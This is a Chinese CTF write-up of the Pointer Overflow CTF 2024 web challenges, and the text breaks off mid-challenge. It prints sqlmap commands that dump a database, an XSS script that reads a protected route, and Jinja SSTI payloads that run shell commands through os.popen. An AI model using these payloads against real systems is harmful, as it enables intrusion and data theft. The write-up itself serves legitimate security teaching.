# Pointer Overflow CTF - 2024 Web全write up-先知社区

> **来源**: https://xz.aliyun.com/news/16271  
> **文章ID**: 16271

---

[UWSP Pointer Overflow CTF](https://pointeroverflowctf.com/challenges/)

# **Web 100 - Giving Up the Game**

[Game Loading...](http://34.135.223.176:7845/)  
查看源码  
  
找到一串`VGhhbmsgeW91IE1hcmlvISBCdXQgb3VyIHByaW5jZXNzIGlzIGluIGFub3RoZXIgY2FzdGxlIQ==`  
base64解密后`Thank you Mario! But our princess is in another castle!`  
访问源码中另一个路径试试[34.135.223.176:7845/getSprites](http://34.135.223.176:7845/getSprites)  
  
解密`cG9jdGZ7dXdzcF8xXzdIMW5rXzdIM3IzcjBfMV80bX0=` 得到flag

# **Web 100 - The Way Out is Through**

查看源码，flag被分为5个部分  
  
打开控制台输入

```
part_1
"poct"
part_2
"f{uwsp_"
part_3
"document.cookie"
document.cookie
"7h3"
part_4
"XzdydTdoXw=="
part_5_hex.toString()
"49,53,95,48,117,55,95,55,104,51,114,51,125"
[49,53,95,48,117,55,95,55,104,51,114,51,125].map(x => String.fromCharCode(x)).join('')
"15_0u7_7h3r3}"

```

part\_4用base64解码后  
拼接每个part  
flag=part\_1+part\_2+part\_3+part\_4+part\_5

# **Web 200 - On My Own Terms**

<http://34.135.223.176:4313/>  
页面打开什么都没有  
查看cookie把cookie中role的值改成admin  
  
刷新  
拿到flag

# **Web 200 - Gifting a White Elephant**

<http://34.135.223.176:6007/>  
源码中找到一个链接打开  
  
<http://34.135.223.176:6007/agent-access>  
提示`Not FBI-SiteAccess-Authorized-Agent. Unauthorized access detected.`  
  
bp抓包把User-Agent替换为要求的`FBI-SiteAccess-Authorized-Agent`  
  
得到flag

# **Web 300 - The Color Drained from His Face**

有个搜索页面  
<http://34.135.223.176:1928/search>  
测试sql  
  
似乎是`;` 会触发waf，无法堆叠注入  
`' and '1'='2'—`  
  
`' or '1'='2'—`  
  
存在sql注入  
`C'` 报错  
`C"` 正常，但无结果  
说明闭合是`'`  
感觉是sql模糊查询  
`C' —` 无结果  
给补上%，`C%' --`  
  
搜索语句大概是这样

```
select * from recipes where Ingredients like '%$var%'

```

`c%' and '%'='` 和`C%' --`结果一样  
抓包保存为1.txt用sqlmap测试，这里不加`--level 5`跑不出来

```
sqlmap -r 1.txt -p query --dbs --level 5

```

```
---
Parameter: query (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: query=1%' AND 8704=8704 AND 'LXpp%'='LXpp
---
[00:04:21] [INFO] testing SQLite
[00:04:51] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[00:04:51] [INFO] confirming SQLite
[00:04:52] [INFO] actively fingerprinting SQLite
[00:04:52] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[00:04:52] [WARNING] on SQLite it is not possible to enumerate databases (use only '--tables')
[00:04:52] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 229 times, 400 (Bad Request) - 2 times

```

查到SQLite数据库，不能查dbs只能查table，`--tables`

```
sqlmap -r 1.txt -p query --dbs --level 5 --tables

```

```
[1 table]
+---------+
| recipes |
+---------+

```

拿到了1个table是recipes，接着`-T recipes`指定table，`--columns`查columns

```
sqlmap -r 1.txt -p query --dbs --level 5 -T recipes --columns

```

这一步有点慢，结果如下

```
[6 columns]
+--------------+---------+
| Column       | Type    |
+--------------+---------+
| content      | TEXT    |
| flag         | TEXT    |
| id           | INTEGER |
| ingredients  | TEXT    |
| instructions | TEXT    |
| title        | TEXT    |
+--------------+---------+

```

`-C flag`查字段

```
sqlmap -r 1.txt -p query --dbs --level 5 -T recipes --columns -C flag --dump

```

得到flag

# **Web 100 - I Have Objections**

这题本来提示是用反射xss做，但是题目有bug存在ssti，有更多的利用空间

## 方法1：SSTI

<http://34.135.223.176:8449/>  
题目提示flag存在的路径是/flag，访问/flag结果是403  
主页有个report，试试提交XSS  
<http://34.135.223.176:8449/complaint>  
  
  
存在xss  
试了一下能不能读到flag

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', '/flag', true);
xhr.withCredentials = true;
xhr.onload = function () {
    if (xhr.status === 200) {
        console.log(xhr.responseText);
    } else {
        console.error('Error:', xhr.statusText);
    }
};
xhr.onerror = function () {
    console.error('Request failed');
};
xhr.send();
</script>

```

仍然403  
想到可能有ssti  
输入`{{self}}`  
有回显了  
  
找存在eval的类  
输入`{{''.__class__.__base__.__subclasses__()}}`  
  
在下标204位置  
  
命令执行  
`{{''.__class__.__base__.__subclasses__()[204].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')}}`  
  
`ls`查看目录下文件  
`{{''.__class__.__base__.__subclasses__()[204].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}`  
  
`cat ./app.py`查看源码得到flag  
`{{''.__class__.__base__.__subclasses__()[204].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat app.py").read()')}}`  
  
得到flag

## 方法2：XSS

分析app.py的源码如下

```
# Hidden flag route (only accessible via XHR) 
@app.route('/flag')
def flag(): 
    if request.headers.get("X-Requested-With") == "XMLHttpRequest": 
        return jsonify({"flag": "poctf{uwsp_71m3_15_4n_1llu510n}"}) 
    return "Access Denied", 403

```

正常http请求返回403，当使用JavaScript的XMLHttpRequest对象发起AJAX请求时返回数据  
  
知道了源代码，在请求中加上`X-Requested-With: XMLHttpRequest`即可  
  
如果依然用反射XSS做  
原有的js发起了XHR请求但是因为没有请求头并没有`X-Requested-With: XMLHttpRequest`所以依然是403  
  
需要添加一行`xhr.setRequestHeader('X-Requested-With', 'XMLHttpRequest');`

```
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET', '/flag', true);
xhr.withCredentials = true;
xhr.setRequestHeader('X-Requested-With', 'XMLHttpRequest');
xhr.onload = function () {
    if (xhr.status === 200) {
        console.log(xhr.responseText);
    } else {
        console.error('Error:', xhr.statusText);
    }
};
xhr.onerror = function () {
    console.error('Request failed');
};
xhr.send();
</script>

```

控制台输出flag  


# **Web 200 - Three Raccoons in a Trench Coat**

<http://34.135.223.176:24100/storybook?page=1>  
对page=后的参数进行枚举  
  
存在以下页面

```
http://34.135.223.176:24100/storybook?page=1
http://34.135.223.176:24100/storybook?page=2
http://34.135.223.176:24100/storybook?page=3
http://34.135.223.176:24100/storybook?page=4
http://34.135.223.176:24100/storybook?page=100
http://34.135.223.176:24100/storybook?page=666
http://34.135.223.176:24100/storybook?page=secret
http://34.135.223.176:24100/storybook?page=hidden
http://34.135.223.176:24100/storybook?page=poctf
http://34.135.223.176:24100/storybook?page=archive
```

依次访问  
<http://34.135.223.176:24100/storybook?page=archive中的图片包含flag>  
得到flag

# **Web 400 - A Bitter Delicacy**

<http://34.135.223.176:10404/>  
根据题目提示找到login页面  
  
<http://34.135.223.176:10404/login>  
输入账号admin密码123456得到一行报错  
  
报错提到log/error.log，直接访问404  
报错中的view-file看起来是查看文件的功能，<http://34.135.223.176:10404/view-file>得到一个查看文件的页面  
  
需要指定文件  
由于是查看文件，猜测参数名是file  
<http://34.135.223.176:10404/view-file?file=1>  
  
找不到的文件都是Access denied  
<http://34.135.223.176:10404/view-file?file=log/error.log>成功查看到当前error.log文件的内容就是之前的报错  
  
尝试目录穿越文件包含都不行  
尝试访问log目录[34.135.223.176:10404/view-file?file=log](http://34.135.223.176:10404/view-file?file=log)  
